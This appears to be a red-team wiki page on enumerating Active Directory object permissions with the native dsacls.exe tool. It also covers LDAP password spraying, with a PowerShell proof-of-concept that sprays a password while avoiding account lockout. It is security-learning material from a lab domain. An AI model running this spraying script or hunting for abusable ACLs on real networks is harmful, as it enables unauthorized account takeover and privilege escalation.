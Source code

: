 ```yaml
---
description: 'Enumeration, living off the land'
---
```


# Enumerating AD Object Permissions with dsacls

It is possible to use a native windows binary \(in addition to powershell cmdlet `Get-Acl`\) to enumerate Active Directory object security persmissions. The binary of interest is `dsacls.exe`.

Dsacls allows us to display or modify permissions \(ACLS\) of an Active Directory Domain Services \(AD DS\).

## Execution

Let's check if the user spot has any special permissions against the user spotless:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
dsacls.exe "cn=spotless,cn=users,dc=offense,dc=local" | select-string "spot"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Nothing useful:

![](../../.gitbook/assets/screenshot-from-2019-03-19-22-46-47.png)

Let's give user spot `Reset Password` and `Change Password` permissions on `spotless` AD object:

![](../../.gitbook/assets/screenshot-from-2019-03-19-22-46-04.png)

...let's try the command again:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
dsacls.exe "cn=spotless,cn=users,dc=offense,dc=local" | select-string "spot"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-03-19-22-44-21.png)

### Full Control

All well known \(and abusable\) AD object permissions should be sought here. One of them is `FULL CONTROL`:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
dsacls.exe "cn=spotless,cn=users,dc=offense,dc=local" | select-string "full control"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-03-19-22-54-36.png)

### Add/Remove self as member

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" | select-string "spotless"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-03-19-22-57-50.png)

### WriteProperty/ChangeOwnerShip

![](../../.gitbook/assets/screenshot-from-2019-03-19-23-00-04.png)

For more good privileges to be abused:

{% page-ref page="privileged-accounts-and-token-privileges.md" %}

{% page-ref page="abusing-active-directory-acls-aces.md" %}

## Password Spraying Anyone?

As a side note, the `dsacls` binary could be used to do LDAP password spraying as it allows us to bind to LDAP with a specified username and password:

{% code-tabs %}
{% code-tabs-item title="incorrect logon" %}
```csharp
dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:spotless@offense.local /passwd:1234567
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![Logon Failure](../../.gitbook/assets/screenshot-from-2019-03-19-23-09-12.png)

{% code-tabs %}
{% code-tabs-item title="correct logon" %}
```csharp
dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:spotless@offense.local /passwd:123456
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![Logon Successful](../../.gitbook/assets/screenshot-from-2019-03-19-23-09-59.png)

### Dirty POC idea for Password Spraying:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
$domain = ((cmd /c set u)[-3] -split "=")[-1]
$pdc = ((nltest.exe /dcname:$domain) -split "\\\\")[1]
$lockoutBadPwdCount = ((net accounts /domain)[7] -split ":" -replace " ","")[1]
$password = "123456"

"krbtgt","spotless" | % {
    $badPwdCount = Get-ADObject -SearchBase "cn=$_,cn=users,dc=$domain,dc=local" -Filter * -Properties badpwdcount -Server $pdc | Select-Object -ExpandProperty badpwdcount
    if ($badPwdCount -lt $lockoutBadPwdCount - 3) {
        $isInvalid = dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:$_@offense.local /passwd:$password | select-string -pattern "Invalid Credentials"
        if ($isInvalid -match "Invalid") {
            Write-Host "[-] Invalid Credentials for $_ : $password" -foreground red
        } else {
            Write-Host "[+] Working Credentials for $_ : $password" -foreground green
        }        
    }
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-03-20-00-10-10.png)

## References

{% embed url="https://devblogs.microsoft.com/scripting/use-powershell-to-explore-active-directory-security/" %}



